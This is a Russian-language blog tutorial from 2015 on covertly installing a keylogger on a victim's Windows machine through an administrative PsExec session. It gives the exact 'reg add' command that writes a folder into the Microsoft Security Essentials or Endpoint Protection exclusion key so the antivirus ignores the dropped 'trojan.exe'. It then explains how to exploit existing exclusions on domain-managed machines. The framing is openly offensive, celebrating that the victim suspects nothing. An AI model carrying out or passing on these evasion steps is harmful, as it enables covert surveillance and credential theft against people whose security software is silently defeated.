 ```yaml
---
title: "Удалённая установка кейлоггера на компьютер с Microsoft Security Essentials или System Center Endpoint Protection"
date: 2015-02-15
---
```


**Дано:** Сессия PsExec (либо любая другая) с административными привилегиями на машине жертвы. У жертвы установлен Microsoft Security Essentials либо System Center Endpoint Protection.  
**Задача:** Незаметно для жертвы установить кейлоггер.  
  
Разберём неправильный и правильный способ решения данной задачи.  
  


###  **Неправильный способ**

**  
**

Для начала проверим, что произойдёт, если попробовать установить логгер "в лоб" без всяких ухищрений. Собираем бинарник, задаём в качестве рабочей директории что-нибудь неприметное, например  **c:\Windows\SysWOW64\WindowsPowerShell\**  
  
1\. Открываем сессию PsExec  
  
[![](images/1.1.jpg)](images/1.1.jpg)  
  


2\. Кидаем установщик логгера в директорию **c:\Windows\SysWOW64\WindowsPowerShell\**  и запускаем  
  
**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**  
**  
**  


[![](images/8.1.jpg)](images/8.1.jpg)  


  


Ищем процесс кейлоггера

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](images/3.jpg)](images/3.jpg)

  


  


  
  
  
Его нет. А почему? Да потому что, антивирус успешно отработал и радостно сообщил об этом жертве.

  


[![](images/4.jpg)](images/4.jpg)

  


  


[![](images/5.jpg)](images/5.jpg)

  


  
  
Операция провалена...

  


###  Правильный способ

  


Теперь пойдём другим путём и установим логгер в директорию, которая не будет проверятся антивирусом.  
  
Список исключений для Microsoft Security Essentials хранится в ключе реестра **HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths**  
  
1\. Для начала проверим его содержимое

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


[![](images/6.jpg)](images/6.jpg)

  


  


  
  
  
  
  
  
В данном случае список исключений пуст.  

  


2. Добавим в исключения директорию **c:\Windows\SysWOW64\WindowsPowerShell\**

  


**reg add "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths" /v c:\Windows\SysWOW64\WindowsPowerShell\ /d "1" /t REG_DWORD**

  


и проверим результат

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


  


[![](images/7.1.jpg)](images/7.1.jpg)

  
  
3\. Помещаем логгер в выбранный нами каталог и запускаем его

  


**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**

  


[![](images/8.1.jpg)](images/8.1.jpg)

  


Проверяем результат:

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](images/9.jpg)](images/9.jpg)

  


PROFIT! Логгер запущен, а антивирус жертвы ни о чём не подозревает

  


[![](images/10.jpg)](images/10.jpg)

  


  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  


### 

###    


###  Поправка на домен

  


В случае когда жертва является членом домена AD и вместо **Essentials** у неё установлен **System Center Endpoint Protection** , логика действий будет немного другой. Endpoint Protection, как и  Essentials хранит исключения в HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths, но их список, скорее всего, будет настроен централизованно через политики защиты. В этом случае наши изменения будут перезаписаны после повторного применения политики, поэтому у нас есть два варианта действий:  


  * Если список исключений задан (в реестре есть какие-либо записи) устанавливаем логгер в любой из перечисленных там каталогов;
  * Если список исключений не задан (записи в реестре отсутствуют) то политика исключений не настроена и мы можем смело вписывать туда нужный нам каталог.



В остальном порядок действий ничем не отличается. 
